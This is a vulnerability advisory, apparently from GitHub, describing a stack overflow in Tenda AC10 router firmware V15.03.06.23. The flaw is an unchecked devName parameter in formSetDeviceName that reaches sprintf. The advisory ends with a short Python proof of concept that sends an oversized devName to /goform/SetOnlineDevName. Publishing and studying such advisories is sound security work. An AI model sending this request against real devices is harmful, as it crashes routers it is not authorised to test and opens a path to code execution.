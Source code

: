 stackflow\_formSetDeviceName
----------------------------

### Overview

*   Equipment website：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   Firmware download website：[AC10V1.0升级软件](https://www.tenda.com.cn/material/show/102734)

### Affected version

V1.0 V15.03.06.23

### Vulnerability details

Tenda AC10 V1.0 V15.03.06.23 The devName argument in the formSetDeviceName function causes a stack overflow and passes it to the function "set\_device\_name" without any length checking. Once the ROP chain is built, malicious code can be executed.

![](api/attachments/f3k863AMSrJ6/image/image.png)

After getting the mac and devName parameters, type set\_device\_name, check only if the parameter "dev\_name" exists, and use sprintf to pass it to the "mib\_name" array, which will overflow the stack if the length exceeds it

![](api/attachments/HFqG5wHg0dxB/image/image.png)

### poc

```text-plain
import requests
ip = '192.168.159.100'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
   "mac": '9c:fc:e8:da:9c:5b',
   "devName": 'Raining'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

![](api/attachments/5mgyxqNbbsnd/image/image.png)
